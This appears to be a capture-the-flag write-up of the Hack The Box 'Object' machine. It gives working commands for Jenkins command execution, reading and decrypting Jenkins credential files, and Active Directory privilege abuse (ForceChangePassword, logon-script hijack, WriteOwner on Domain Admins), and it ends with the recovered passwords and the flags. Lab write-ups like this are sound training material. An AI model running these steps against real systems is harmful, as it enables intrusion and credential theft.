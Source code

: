 **Skills Required**
Basic Knowledge of Windows
Basic Knowledge of Active Directory
OWASP Top 10
**Skills Learned**
Jenkins Exploitation
AD Enumeration
ForceChangePassword Abuse

I listed several ports (80,5985, and 8080)
```
Port 80 (http)
Port 5985 (winrm)
Port 8080 (http)
```


I decided to use the "whatweb" tool to gather information about the web services running on port 80 and port 8080

When I checked port 80, I discovered that it had a domain name, so I saved it in my hosts file.
```
❯ whatweb 10.10.11.132
http://10.10.11.132 [200 OK] Country[RESERVED][ZZ], Email[ideas@object.htb], HTML5, HTTPServer[Microsoft-IIS/10.0], IP[10.10.11.132], JQuery[2.1.3], Microsoft-IIS[10.0], Modernizr, Script, Title[Mega Engines]
```


Port 8080 redirected me to a login form, revealing that it was running the "jenkins" application
```
http://10.10.11.132:8080 [403 Forbidden] Cookies[JSESSIONID.6196fb37], Country[RESERVED][ZZ], HTTPServer[Jetty(9.4.43.v20210629)], HttpOnly[JSESSIONID.6196fb37], IP[10.10.11.132], Jenkins[2.317], Jetty[9.4.43.v20210629], Meta-Refresh-Redirect[/login?from=%2F], Script, UncommonHeaders[x-content-type-options,x-hudson,x-jenkins,x-jenkins-session]

http://10.10.11.132:8080/login?from=%2F [200 OK] Cookies[JSESSIONID.6196fb37], Country[RESERVED][ZZ], HTML5, HTTPServer[Jetty(9.4.43.v20210629)], HttpOnly[JSESSIONID.6196fb37], IP[10.10.11.132], Jenkins[2.317], Jetty[9.4.43.v20210629], PasswordField[j_password], Script[text/javascript], Title[Sign in [Jenkins]], UncommonHeaders[x-content-type-options,x-hudson,x-jenkins,x-jenkins-session,x-instance-identity], X-Frame-Options[sameorigin]
```

I proceeded to explore the Jenkins application, created an account, and logged in.

Within Jenkins, I found an option to create a New Item and inside these I have the option to  execute Windows batch Command, so I decided to try running "cmd /c whoami"
```
cmd /c whoami
```

I encountered an issue with the "Build in" button, so I decided to explore the "Build periodically" option, which worked similarly to a cron job.
So I made a "cron job" to execute my command
```
*****
```

After a  minute I see my job ready, and in the console output in the options panel I see the result of the command that I inject before "whoami"
```
Started by timer
Running as SYSTEM
Building in workspace C:\Users\oliver\AppData\Local\Jenkins\.jenkins\workspace\myProject
[myProject] $ cmd /c call C:\Users\oliver\AppData\Local\Temp\jenkins2507289751226796542.bat

C:\Users\oliver\AppData\Local\Jenkins\.jenkins\workspace\myProject>cmd /c whoami 
object\oliver
```

But there are a better way to do this, instead of the "Build periodically"  I can make a script in the configuration option "Trigger builds remotely"

```
Add new Token in my profile configuration -> myToken (api token)
create a security identificator in the "Trigger builds remotely" option -> myToken
Use the URL that the "Trigger builds remotely" option give me -> /job/myProject/build?token=myToken
Now make a request with curl
curl -s -X GET "http://kvzlx:11a52f38a1044f36bbb6b96d13c5343572@10.10.11.132:8080/job/myProject/build?token=myToken"
```

Now this is a way to execute remote command
But first I need to check the firewall rules on the victim machine to determine if i'm able to execute a reverse shell

```
myProyect config:
Execute
Windows Command -> cmd /c powershell -C Get-NetFirewallRule -Direction Outbound -Action Block -Enabled True

curl -s -X GET "http://kvzlx:apitoken@10.10.11.132:8080/job/myProject/build?token=myToken"

```

This shows me the firewall rule "BlockOutboundDC"  
Whit this firewall I can't establish a reverse shell. Therefore, I'll attempt to enumerate directories on the victim machine because jenkins has configs files, and there may be credentials or something useful
```
myProyect config:
Execute
Windows Command -> cmd /c powershell -C "cat ../../users/admin_17207690984073220035/config.xml"

curl -s -X GET "http://kvzlx:apitoken@10.10.11.132:8080/job/myProject/build?token=myToken"

```

I have credentials, but I need to decryp them, so I'll use the "jenkins-credentials-decryptor" tool https://github.com/hoto/jenkins-credentials-decryptor
``` bash
curl -L \
  "https://github.com/hoto/jenkins-credentials-decryptor/releases/download/1.2.0/jenkins-credentials-decryptor_1.2.0_$(uname -s)_$(uname -m)" \
   -o jenkins-credentials-decryptor

chmod +x jenkins-credentials-decryptor
```

To use this tool, I need the "master.key" and "hudson.util.Secret" files.
I can find these files in the "secrets" directory on the victim machine
```
myProyect config:
Execute
Windows Command -> cmd /c powershell -C "cat ../../secrets/master.key"

curl -s -X GET "http://kvzlx:apitoken@10.10.11.132:8080/job/myProject/build?token=myToken"

nvim master.key
cat master.key | tr -d '\n | sponge master.key'
```

and
```
myProyect config:
Execute
Windows Command -> cmd /c powershell -C [convert]::ToBase64String(("cat ../../secrets/hudson.util.Secret" -Encoding byte)) 

curl -s -X GET "http://kvzlx:apitoken@10.10.11.132:8080/job/myProject/build?token=myToken"

echo "base64string" | base64 -d > hudson.util.Secret
```

I have obtained all the files to decrypt the credentials, now I can execute the script

``` bash
❯ ./jenkins-credentials-decryptor -m master.key -s hudson.util.Secret -c config.xml
[
  {
    "id": "320a60b9-1e5c-4399-8afe-44466c9cde9e",
    "password": "c1cdfun_d2434\u0003\u0003\u0003",
    "username": "oliver"
  }
]
```

I have obtained the credentials, and now I can use the tool "evil-winrm" to establish a connection to the victim's machine using these credentials

``` bash
evil-winrm -i 10.10.11.132 -u 'oliver' -p 'c1cdfun_d2434'
```

Now that I'm inside the victim machine, I need to escalate privileges

I'll  use the tool sharphound.ps1 to enumerate vectors for privilege escalation https://github.com/puckiestyle/powershell/blob/master/SharpHound.ps1

``` bash
evil-winrm cd C:\ProgramData\bh
evil-winrm upload SharpHound.ps1
evil-winrm Import-Module .\SharpHound.ps1
evil-winrm Invoke-BloodHound -CollectionMethod ALL
evil-winrm download BloodHound.zip

# on my machine
neo4j console
bloodhound
```

Bloodhound reveals that the user Oliver can change the password of the user Smith (ForceChangePassword)

``` powershell
evil-winrm > $SecPassword = ConvertTo-SecureString 'Password123!' -AsPlainText -Force
evil-winrm > upload powerview.ps1
evil-winrm > Import-Module .\powerview.ps1
evil-winrm > Set-DomainUserPassword -Identity smith -AccountPassword $SecPassword
```

Now I have access as the user smith using evil-winrm
``` bash
evil-winrm -i 10.10.11.132 -u 'smith' -p 'Password123!'
```

Looking at the bloodhound information, Now as the user Smith I have the privilege "GenericWrite" for the user Maria
This allows me to change attributes for the user Maria
Whit this privilege, I can abuse the logon script attribute

``` powershell
evil-winrm > Import-Module .\powerview.ps1
evil-winrm > echo 'dir C:\Users\Maria\Desktop\ > C:\ProgramData\bh\output.txt' > test.ps1
evil-winrm > Set-DomainObject -Identity maria -SET @{scriptpath='C:\ProgramData\bh\test.ps1'}
``` 

I'm viewing a excel file from the user Maria, leveraging the "GenericWrite/logon script" exploit
Now I'll copy that file to my directory and next download it

``` bash
echo 'copy C:\Users\Maria\Desktop\Engines.xls C:\ProgramData\bh\Engines.xls' > test.ps1

```

this excel file contains credentials for Maria

``` bash
evil-winrm -i 10.10.11.132 -u 'maria' -p 'W3llcr4ft3d_4cls'
```

Now I'm accessing as the user maria

Regarding the bloodhound information, Maria has the privilege "WriteOwner" on the  Domain Admins

``` powershell
evil-winrm > Import-Module .\powerview.ps1
evil-winrm > Set-DomainObjectOwner -Identity "Domain Admins" -OwnerIdentity Maria
evil-winrm > Add-DomainObjectAcl -TargetIdentity "Domain Admins" -Rights All -PrincipalIdentity Maria
evil-winrm > net group "Domain Admins" Maria /add /domain
``` 

Now  the user Maria is in the Admin group, and I can get the root flag and terminate the Object machine from Hack The Box


User flag > a12c80de6fd4225e3a33730c83673657
User root > ecef05e90ac301a571e9b471e5426f4a
